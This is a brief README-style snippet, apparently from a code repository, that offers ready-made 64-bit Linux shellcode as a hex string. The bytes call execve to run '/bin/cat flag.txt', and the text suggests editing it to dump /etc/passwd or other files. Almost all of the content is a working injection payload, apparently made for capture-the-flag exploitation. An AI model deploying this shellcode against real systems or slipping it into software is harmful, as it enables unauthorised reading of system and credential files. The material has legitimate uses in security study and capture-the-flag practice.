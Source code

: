 ###  64 bit shellcode with execve syscall and /bin/cat binary
Ready shellcode looks like this:
`4831c05048b8666c61672e747874504889e14831c05048b82f62696e2f636174504889e74831c05051574889e6b03b0f05`
Edit 7 line to display something like /etc/password or another...
